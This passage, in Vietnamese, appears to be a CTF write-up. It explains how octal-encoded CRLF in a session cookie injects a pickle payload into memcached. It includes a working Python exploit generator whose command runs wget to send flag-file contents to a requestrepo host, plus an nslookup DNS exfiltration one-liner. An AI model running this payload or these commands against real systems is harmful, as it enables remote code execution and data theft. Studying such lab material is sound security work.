 Như trong blog post về memcache bên trên, tá giả có nói rằng, không thể đặt chuỗi CRLF bình thường trên các HTTP header(nói đến session cookie mà chúng ta cần inject) vì chúng được sanitized.

Tuy nhiên, vì RFC2109 được triển khai trong case này, chúng ta có thể bypass nó bằng cách encoding special char thành ký hiệu bát phân có tiền tố là blacklash `\`.

Để ý ở session handler thì ta có thể tùy chỉnh session theo ý mình, vì vậy mình có thể inject payload vào session, sau đó tạo thêm 1 request bất kì để đẩy payload inject vào memcached để serialize
![Untitled](https://hackmd.io/_uploads/HkLanV9kC.png)

Build local và bắt gói tin bằng wireshark, ta có có được set và get command
![Untitled](https://hackmd.io/_uploads/S1DeTNcJR.png)

Sửa lại exploit code trong PoC để tạo payload
```python=
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('wget http://y8gdi5i3.requestrepo.com/$(cat /f*)')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'\r\nset session:f0965c70-401b-4b6f-932c-b251165c1d5d 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get session:f0965c70-401b-4b6f-932c-b251165c1d5d')
    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""
print(generate_exploit())
```

Ở đây mình cũng có thể sử dụng lệnh nslookup để gọi đến server mình đang host
`nslookup $(cat /flag*).myserver.com`

![Untitled](https://hackmd.io/_uploads/Syl5R6V9JC.png)

# Labyrinth Linguist
Đây là 1 challenge SSTI rõ ràng sử dụng Velocity template của Java nhưng mình lại không nhìn ra. Các payload đều có thể search trên internet áp vào case này được luôn

